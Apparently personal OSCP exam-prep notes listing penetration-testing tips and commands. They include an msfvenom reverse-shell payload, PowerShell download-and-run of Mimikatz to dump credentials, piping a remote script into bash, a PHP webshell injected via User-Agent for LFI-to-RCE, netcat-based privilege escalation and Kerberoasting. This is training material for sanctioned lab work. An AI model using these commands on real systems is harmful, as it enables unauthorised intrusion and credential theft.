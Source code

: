 ```yaml
---
description: Just some rough notes in preparation for the OSCP.
---
```


# OSCP Notes

### Quick Notes

* Transferring a file such as a .doc to a FTP share? Reminder to use `binary` before doing so or else it will upload as ASCII.&#x20;
* If LinPEAS doesn't return anything useful then it is possible you already have the information needed to privilege escalate. Try default passwords, [priv esc with fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/), and other common tricks.
  * For priv esc with fail2ban, use a netcat shell or modify the permissions of `/etc/shadow`
* When enumerating FTP, ensure you run `dir -a` to enumerate any hidden files or directories on the system. You may find l00t!
* Ensure you run FeroxBuster or GoBuster with file extensions identified throughout inital enumeration of the device.
* Always try to login with default passwords and with using the username as a password. For example, if a username has been identiifed as `parzival` try and login with the password `parzival`
* If you have a shell via Netcat on a Windows machine, try using Curl to download a  ps1 to the target and executing it.
  * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh -o meterpreter-64.ps1`
* Metasploit and Meterpreter are only allowed against one machine in the exam so ensure that you are sure before executing. There may be other ways to accomplish what you want (e.g., CrackMapExec, Lsassy, etc).&#x20;
* PowerShell Empire has some great PS1 scripts readily available such as `Invoke-Watson` and `Invoke-MS16032` as examples. These can be accessed at `/usr/share/powershell-empire/empire/server/modules/`
* Unable to get Mimikatz onto a machine? Simply host a http server and execute the following:
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.1:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds`&#x20;
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.164:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command lsadump::sam`
* If you are getting the following message `You are not a search engine. Permission denied.` when attempting to browse to robots.txt then set your user agent in Burp to the following:&#x20;
  * `User-Agent: Googlebot/2.1 (+http://www.googlebot.com/bot.html)`
* If a login page default password doesn't work then think of what a lazy admin would use (uppercase and lowercase). CeWL can be used here if you're running out of ideas.
* If there are no writable directories then just pipe LinPEAS (or other tool of choice) directly into bash:
  * `curl 10.10.10.1:8080/linpeas.sh | bash`
* **REMEMBER KISS - Keep It Super Simple**. Several times I have tried to do something overly complicated when the first thing I would have tried would work.
* Oracle SQLi - [This link](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html) is beyond useful. Got me out of a situation where I was extremely stuck.&#x20;
* Mimikatz errors? Need to downgrade your version? Use the version availabke at [this link](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/).
* If testing for Shellshock on SMTP then I have found[ this exploit ](https://github.com/3mrgnc3/pentest\_old/blob/master/postfix-shellshock-nc.py)to be the most reliable. It requires a valid email address so ensure you run `VRFY` to enumerate a valid email prior to execution.
* If you can access the Apache logs through LFI and observe the 'User Agent' is viewable, we can potentially specify our user agent to PHP code and execute that on the target machine. [This video from John Hammond](https://www.youtube.com/watch?v=u\_uuk7FWWF4) is a great example.
  * Using this we can potentially turn an LFI into RCE. An example user agent would be the following: `User-Agent: <?php system(\$_GET['c']); ?>`
* Log into the SMTP server to identify the version if it is not returned in the Nmap scan. Identifying Postfix means that multiple exploits from Searchsploit may work: `searchsploit postfix`
* You can perform post exploitation activities such as Kerberoasting with a machine account. This may be important if you cannot find another path to exploitation:

`GetUserSPNs.py -request 'DOMAIN/MACHINE$' -dc-ip DC -hashes 'LM:NTLM'`

* PowerView is your best friend when attempting to pivot. Run the following commands to get the lay of the land and perform exploitation activities:

**Get Domain Users**

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv`

#### Get Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

#### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

### Helpful Blogs

* [List of Kerberos attacks with different tooling](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Helpful OSCP Cheatsheets

* [OSCP Enumeration Cheatsheet](https://strongcourage.github.io/2020/05/03/enum.html)
* [iRedTeam Cheatsheet](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)

References While Building my Notes

* [FareedFauzi's Notes](https://fareedfauzi.gitbook.io/oscp-notes/others/active-directory-attack)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts)
